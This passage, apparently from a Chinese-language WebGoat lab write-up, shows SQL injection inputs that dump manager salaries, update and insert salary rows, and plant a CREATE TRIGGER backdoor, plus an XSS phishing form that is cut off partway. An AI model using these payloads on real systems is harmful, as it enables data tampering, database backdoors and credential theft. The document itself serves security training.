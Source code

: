 ![image-20220501093146873](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220501093146873.png)

![image-20220501093252679](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220501093252679.png)

![image-20220501093509808](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220501093509808.png)

##### Numeric SQL Injection

输入`101 or '1'='1' ORDER BY salary desc`；由于经理的薪水大概率是最高的，我们通过ORDER BY salary desc来获取经理的数据；结果如下：

![image-20220501105001678](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220501105001678.png)

##### Modify Data with SQL Injection

输入以下sql语句：`jsmith'; UPDATE salaries SET salary=100 WHERE userid='jsmith`；结果如下图

![image-20220501110311140](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220501110311140.png)

##### Add Data with SQL Injection

输入以下sql语句，`jsmith'; INSERT INTO salaries(userid,salary) VALUES('thy',123)--`；--用于注释掉后面的‘；结果如下

![image-20220501111128382](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220501111128382.png)

##### Database BackdoorsBlind Numeric SQL Injectio

输入以下sql语句设置后门`101;CREATE TRIGGER myBackDoor BEFORE INSERT ON employee FOR EACH ROW BEGIN UPDATE employee SET email='john@hackme.com'WHERE userid = 101`

![image-20220501161524369](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220501161524369.png)

##### Blind String SQL Injectio

经过不断地二分测试，最后得pin=Jill，输入以下语句完成sql注入：`101;SELECT * FROM pins WHERE cc_number=1111222233334444 AND (pin ='Jill') `；结果如下

![image-20220501161924223](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220501161924223.png)

### XSS

##### Phishing with XSS

输入以下JavaScript代码以生成输入框

```javascript
<div>
    username:
</div>
<br />
<div>
    <input type="text" id="username" />
</div>
<br />
<div>
    password:
</div>
<br />
<div>
    <input type="password" id="password" />
</div>
<br />
<div>
    <button id="login" onclick="
    var username = document.getElementById('username').value;
    var password = document.getElementById('password').value;
    var XSSimage = new Image();
```